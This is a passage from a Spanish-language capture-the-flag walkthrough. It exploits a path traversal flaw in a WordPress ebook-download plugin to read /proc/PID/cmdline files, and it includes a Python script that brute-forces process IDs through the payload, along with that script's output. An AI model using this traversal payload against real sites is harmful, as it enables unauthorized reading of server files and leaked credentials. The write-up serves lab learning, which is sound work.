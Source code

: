 UY, el objeto `cmdline` nos da información detallada del programa que ejecuta el proceso :o (los otros 2 no nos dieron respuesta)

> "Lists everything that was used to invoke the process. This sometimes contains useful paths to configuration files as well as usernames and passwords." ~ [**netspi.com**](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/)

Uf uuf ufff, pues pongámonos de inquietos e intentemos ver si existen más procesos (o sea, buscar otros `PID`s) y veamos si alguno de ellos nos expone algún programa o cosita interesante (recordemos que hay que probar de todo :P):

```py
import requests

# proc/{fd}/cmdline: [1, 482, 510, 523, 654, 655, 656, 657, 658, 659, 660, 675, 679, 705, 711, 748, 749, 750, 751, 756, 759, 760, 761, 762, 766, 767, 768, 769, 770, 774, 809, 819, 820, 834, 835, 839, 864, 876, 898, 901, 902, 925, 927, 947, 951, 954]

url_site = "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php"

fd_found = []
for pid in range(0,16):
    payload = f"?ebookdownloadurl=/proc/{pid}/cmdline"

    r = requests.get(url_site + payload)
    print(payload + " ----> " + str(len(r.text)))

    # Tomamos un valor que sabemos ninguna respuesta en blanco tiene
    #   (Obtenido despues de probar:
    #    con un digito en el PID el tamaño de la respuesta es de 76
    #    con dos es de 79
    #    con tres es de 82
    #    con cuatro es de 85
    #    y así...)

    # Así que si es mayor o igual a 100 puede tener contenido interesante y lo guardamos
    if len(r.text) >= 100:
        fd_found.append(pid)

print("\nArray de PIDs llamativos: " + str(fd_found))
```

Obtenemooooooooooooooos:

```bash
❱ python3 bruteforce_pid.py
...
Array de PIDs llamativos: [1, 485, 511, 527, 656, 657, 658, 659, 660, 661, 662, 684, 685, 689, 707, 748, 749, 750, 752, 753, 754, 759, 760, 762, 766, 775, 776, 785, 786, 787, 821, 827, 828, 853, 854, 856, 885, 886, 888, 916, 918, 920, 921]
```

Uuuuuuh, pues pongámonos a descubrir cuál es el "contenido llamativo" de esos **PIDs**:

